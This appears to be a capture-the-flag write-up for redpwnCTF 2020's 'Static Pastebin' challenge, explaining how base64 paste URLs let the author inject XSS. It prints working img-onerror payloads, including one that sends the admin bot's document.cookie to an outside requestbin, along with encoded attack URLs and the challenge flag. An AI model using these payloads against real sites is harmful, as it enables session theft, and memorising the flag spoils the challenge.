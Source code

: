 # Static Pastebin

So first things first, create a pastebin. When you go to the display, you'll see a url like https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==


That looks kinda like base64, and if you base64 decode the thing after https://static-pastebin.2020.redpwnc.tf/paste/# you'll find it decodes to the content of the pastebin! This allows us to easily create pastebin messages.

There's also an admin bot submit form, where we can submit a url, and the admin bot will visit it. 

Rak found that the xss `><img src='' onerror="javascript code">` worked. 

First, we can try a simple redirect. `><img src='' onerror="document.location='requestbinurl'">`. I set up a requestbin for this purpose. Remember: we base64 encode the payload, and append it to the major part of the url.

https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==, as a sample, works, sending a request to our requestbin. Let's exfiltrate some information. We can use GET parameters to exfiltrate data.

`><img src='' onerror='document.location="http://requestbin.net/r/1lfrfyi1?thing=" + document.cookie'>`

This would redirect the admin to our requestbin, sending the cookies as the "thing" parameter. Base64 encoding and submitting this as a url, a request on the requestbin pops up with the parameters ?thing=flag=flag{54n1t1z4t10n_k1nd4_h4rd}, giving us the flag, 

#### flag{54n1t1z4t10n_k1nd4_h4rd}
